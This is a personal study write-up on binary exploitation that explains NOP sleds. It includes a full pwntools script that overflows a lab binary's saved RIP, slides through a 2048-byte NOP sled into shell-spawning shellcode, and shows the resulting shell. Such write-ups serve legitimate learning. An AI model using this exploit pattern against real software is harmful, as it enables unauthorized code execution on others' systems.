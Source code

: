 This is part III of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).
# B&E Pt. 3 NOP Sleds
If you were to following along in the last part, you would have noticed that the addresses I was referencing are different than the ones you may be seeing.

The difference in addresses on different systems is due mainly to *the environment variables stored by the stack.* If you were to add an environment variable in your system and then re-compile the binary, the addresses would be different.

Even the `$PWD` variable for the current working directory will effect the addresses if you were to run the binary from a different directory.

Because of this *our exploit code is not likely to work on a different target system* because we don't know the exact address our shellcode will be at (even if we place it at the beginning of our injection like last time).

However, *the offsets will be the same*. That's because, as long as the code for the vulnerable program is the same, it compiles into the same binary. So, the length in memory between the `name` variable and the saved RIP on the stack is still 280 bytes.

So, since we can't control for the exact address where our malicious code will end up, we're going to move our shellcode to the end of the injection and 'slide' into it from the saved RIP using NOPs.
## NOP Sleds
In our basic overflow ([part 2](https://trshpuppy.github.io/portfolio/writeups/classic-buffer-overflow) of this series), we overwrote the saved RIP with the exact address of our shellcode (which was placed at the beginning of our injection payload).
![](writeups/writeup-pics/Pasted%20image%2020231121173335.png)
This time, we're still overwriting the saved RIP, but the address we place in there will be a guess. We're going to put an address which, according to our *best guess* is an address within our NOP sled, which is the next part of the injection payload.
### What is a NOP?
'NOP' stands for 'non operational' of 'no operation' and refers to computer instructions in machine language which do nothing. The point of a NOP in assembly is to *not change the state of the program* (although they often take a specific number of clock cycles to execute).

In our architecture, we'll be using the literal `nop operation` which is `b'\x90'`.
### Why NOP?
Because we can't reliably pick an address for our shellcode on the stack we're going to use NOPs in our payload as *executable filler*. Between the end of our 280 `chars` and our exploit code, we'll add a long sequence of NOPs. Then, we'll guess an address that's likely to be in our NOP sled (`0x7fffffffe000`), and overwrite the saved RIP with that address.

This will essentially widen the window of addresses which will capture the CPU for execution. If the address we overwrite the saved RIP with is within the NOP sled, the CPU will enter the sled at that address, begin executing the NOPs and *slide into our shellcode* placed at the end of the NOP sequence. That's why this technique is called a *NOP sled*. 

Using this technique, our payload on the stack will look something like this:
![](writeups/writeup-pics/Pasted%20image%2020231124142229.png)
Compared to our basic overflow (the first image) the shellcode is at the *END* of the NOP sled instead of at the beginning of our payload (at the `name` variable). If we point the CPU to any of the addresses between the saved RIP and the shellcode, our shellcode is guaranteed to get executed. 
### NOP Sled Length
We want our NOP sled to be pretty long so we can *increase the likelihood* that our guessed address will be within the addresses the sled spans. This greatly increases our chance of capturing the CPU's execution flow, even in systems we haven't tested on.
## Re-Writing our Exploit
Our exploit code will now look like this:
```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes 
overflow_offset_rip = 0x118

# we point saved rip to the stack hoping to hit our NOPSLED
new_rip = 0x7fffffffe000

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

NOP_SLED = b"\x90" * 2048

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += NOP_SLED
payload += shellcode 

# connect to the vulnerable program p = process("./vuln_1")
p = process("./vuln_1")

# send the payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```
Compared to our basic overflow code:
1. The `new_rip` is set to the address we're guessing is within the NOP sled.
2. The character filler portion of the shellcode isn't subtracted from to make room for the `shelcode` (since it will be at the end this time).
3. The `NOP_SLED` variable is new and consists of 2048 `nop` operations (`b'\x90'`).
4. The `shellcode` is added to the end of the payload and not the beginning.
## NOP Slide into the Main Frame!
```bash
┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py
[+] Starting local process './vuln_1': pid 1284173
[*] Switching to interactive mode
$ whoami
hakcypuppy
$
```
*Noice!*

In the next part of this series, we'll make our exploit *even more reliable* by using ROP Gadgets!

> Resources

>

> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)

> -   [Wikipedia: NOP](https://en.wikipedia.org/wiki/NOP_(code)

> -  [Wikipedia: NOP Slide](https://en.wikipedia.org/wiki/NOP_slide)

  

> My previous notes:

>

> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)




![](writeups/writeup-pics/Pasted%20image%2020231124145724.png)